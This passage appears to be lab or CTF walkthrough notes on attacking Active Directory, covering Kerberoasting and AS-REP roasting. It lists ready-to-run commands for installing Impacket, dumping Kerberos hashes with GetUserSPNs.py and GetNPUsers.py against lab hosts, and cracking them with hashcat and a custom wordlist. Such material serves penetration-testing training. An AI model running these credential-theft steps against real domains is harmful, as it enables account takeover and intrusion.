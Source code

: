 	copy the hash onto your attacker machine and put it into a .txt file so we can 
	crack it with hashcat

	I have created a modified rockyou wordlist in order to speed up the process 
	download it 
	(https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt) 
	
	3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

									Method 2 - Impacket

2-
Impacket Installation -

Impacket releases have been unstable since 0.9.20 
I suggest getting an installation of Impacket < 0.9.20

	1.) `cd /opt` navigate to your preferred directory to save tools in 
	
	2.) download the precompiled package 
	from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19]
	(https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)
	
	3.) `cd Impacket-0.9.19` navigate to the impacket directory
	
	4.) `pip install .` - this will install all needed dependencies
	
Kerberoasting w/ Impacket - 

	1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where 
	GetUserSPNs.py is located
	
	2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 
	MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable 
	accounts it can find on the target domain just like Rubeus does; however, this 
	does not have to be on the targets machine and can be done remotely.
	
	3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

```bash

wget https://github.com/fortra/impacket/releases/download/impacket_0_11_0/impacket-0.11.0.tar.gz && tar xvf impacket-0.11.0.tar.gz && cd impacket-0.11.0/examples/

```

``` bash


python3 GetNPUsers.py -dc-ip <IP> <spookysec>.local/<svc-admin> -no-pass


svc-admin => name of account from Output of Kerbrute


```


# AS-REP Roasting with Rubeus and Impacket
